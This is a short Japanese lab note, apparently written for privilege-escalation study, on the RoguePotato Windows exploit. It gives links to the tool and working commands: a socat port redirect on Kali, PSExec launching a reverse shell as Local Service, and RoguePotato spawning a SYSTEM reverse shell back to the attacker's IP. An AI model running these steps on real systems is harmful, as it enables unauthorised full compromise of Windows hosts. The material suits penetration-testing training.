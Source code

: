 Potatoエクスプロイトの最新版。   
GitHub: https://github.com/antonioCoco/RoguePotato    
Blog: https://decoder.cloud/2020/05/11/no-morejuicypotato- old-story-welcome-roguepotato/    
Compiled Exploit: https://github.com/antonioCoco/RoguePotato/releases.

# Privilege Escalation
1. PSExec64.exeとRoguePotato.exeのエクスプロイト実行ファイルをWindowsにコピーしてください。
2. Kaliにsocatリダイレクトを設定し、Kaliのポート135をWindowsのポート9999に転送します（192.168.100.178がWindowsのIPです）。
```
# sudo socat tcp-listen:135,reuseaddr,fork tcp:192.168.100.178:9999
```
3. Kaliでリスナーを開始する。
4. <span style="color:red;">管理者用コマンドプロンプト</span>を使用して、PSExec64.exeを使用して、ローカルサービスのサービスアカウントとして実行するリバースシェルを起動します。
```
> C:\PrivEsc\PSExec64.exe /accepteula -i -u "nt authority\local service" C:\PrivEsc\reverse.exe
```
5. Kaliで別のリスナーを始める。


![スクリーンショット_2022-11-16_09-14-30.png](../../_resources/スクリーンショット_2022-11-16_09-14-30.png)


6. ここで、RoguePotatoエクスプロイトを実行して、SYSTEM権限で実行するリバースシェルを起動します（192.168.100.153がKaliのIPです）。
```
> C:\PrivEsc\RoguePotato.exe -r 192.168.100.153 -e "C:\PrivEsc\reverse.exe" –l 9999 
```
